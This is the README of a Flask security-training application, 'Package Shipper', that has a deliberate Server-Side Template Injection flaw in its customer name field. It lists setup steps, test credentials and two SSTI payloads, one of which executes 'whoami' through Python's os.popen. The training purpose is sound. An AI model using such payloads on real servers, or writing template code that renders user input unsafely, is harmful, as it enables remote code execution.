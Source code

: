 # Package Shipper - Security Challenge Application

A Flask web application designed for Application Security training with an intentional Server-Side Template Injection (SSTI) vulnerability.

## Quick Start

### Prerequisites
- Docker installed on your system

### Build and Run

1. **Clone or download this repository**

2. **Build the Docker image:**
   ```bash
   docker build -t package-shipper .
   ```

3. **Run the container:**
   ```bash
   docker run -p 8080:8080 package-shipper
   ```

4. **Access the application:**
   Open your browser to `http://localhost:8080`

### Test Accounts
- **User**: `user@example.com` / `SecurePass123!`
- **Admin**: `admin@example.com` / `AdminSecure456!`

## Challenge Overview

This application simulates a shipping label service where users can create free shipping labels. The application contains **one intentional vulnerability (SSTI)** while maintaining security in all other areas.

### Your Mission
Find and exploit the Server-Side Template Injection vulnerability to achieve command execution on the server.

**Hint**: The vulnerability is in the customer name field during shipping label creation.

### Exploitation Examples

**Test for SSTI:**
```
{{7*7}}
```

**Command Execution:**
```
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

## Application Features

- ✅ User registration and authentication
- ✅ Secure session management (no persistent sessions)
- ✅ CSRF protection on all forms
- ✅ Free shipping label creation
- ✅ SQLite database with secure password hashing
- ❌ **One intentional SSTI vulnerability**

## Alternative Setup (Local Development)

If you prefer to run without Docker:

1. **Install dependencies:**
   ```bash
   pip install -r requirements.txt
   ```

2. **Initialize database:**
   ```bash
   python init_db.py
   ```

3. **Run application:**
   ```bash
   python app.py
   ```

4. **Access at:** `http://localhost:8080`

## Security Note

This application is designed for educational purposes only. The intentional vulnerability should never be deployed in a production environment.